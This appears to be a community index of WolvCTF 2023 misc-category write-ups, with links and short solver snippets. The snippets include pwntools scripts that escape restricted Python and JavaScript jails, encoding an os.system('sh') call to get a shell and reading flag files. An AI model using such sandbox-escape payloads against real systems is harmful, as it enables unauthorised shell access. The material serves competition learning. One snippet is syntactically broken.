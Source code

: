 
## **misc**
### Escaped
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469
### We Will Rock You
- https://chrootcommit.github.io/WolvCtf2023
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469
### Limited Characters
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469
- yuzu#0233
  ```python
  from pwn import *

  payload = '__import__("os").system("sh")'

  def _(num):
      return "+".join(["1" for i in range(num)])

  res = []
  for char in payload:
      res.append(f'chr({_(ord(char))})')

  payload = '+'.join(res) + "+repr(' ()+,.1<[]_cdehijlmnoprsy')[1]"
  p = remote('limited-characters.wolvctf.io', 1337)
  p.sendline(payload)
  p.interactive()
  ```
### Smuggler
- https://www.youtube.com/watch?v=OWSoZHIOdVM
### Abstract Art
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469
### yellsatjavascript
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469

- xl00t#5697:
  ```javascript
  log = console["log"];
  buf = new Buffer("ZmxhZw==",'base64')["toString"]();
  log(process['env'][buf]);
  ```
### yellsatpython
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469
- xl00t#5697:
  ```python
  next(open("/home/user/flag"+chr(46)+"txt))
  ```
- yuzu#0233
  ```python
  from pwn import *

  r = remote('yellsatpython.wolvctf.io', 1337)
  payload = "next(open('flag\\x2etxt'))"
  r.sendline(payload)
  r.interactive()
  ```
### yellsatbefunge1
- Silicate#4370
  ```bash
  v###############v###############< 
  ```